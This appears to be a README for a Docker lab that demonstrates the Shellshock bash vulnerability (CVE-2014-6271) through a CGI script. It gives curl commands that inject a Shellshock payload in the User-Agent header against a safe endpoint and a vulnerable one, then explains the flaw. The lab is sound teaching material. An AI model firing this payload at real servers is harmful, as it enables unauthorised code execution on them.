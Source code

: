 # 2. SHELLSHOCK

## Subtitle / what it does
Shellshock (CVE-2014-6271) is a vulnerability in bash shell and allows code execution when declaring new environment variable.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
cd 2-shellshock
docker-compose build
docker-compose up -d
```

### Safe endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/safe.cgi
```

### Vulnerable endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/victim.cgi
```

![image](https://user-images.githubusercontent.com/31791455/140388921-a01d5ec8-6823-4448-af41-508a4f3a1b75.png)


### Explanation
CGI extensions utilize bash and are available remotely on web server.
As CGIs create environment variables from user-supplied data, malicious HTTP header might cause code execution.

### References and recommended reading
https://en.wikipedia.org/wiki/Common_Gateway_Interface \
https://en.wikipedia.org/wiki/Shellshock_(software_bug) \
https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf \

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/bash/shellshock
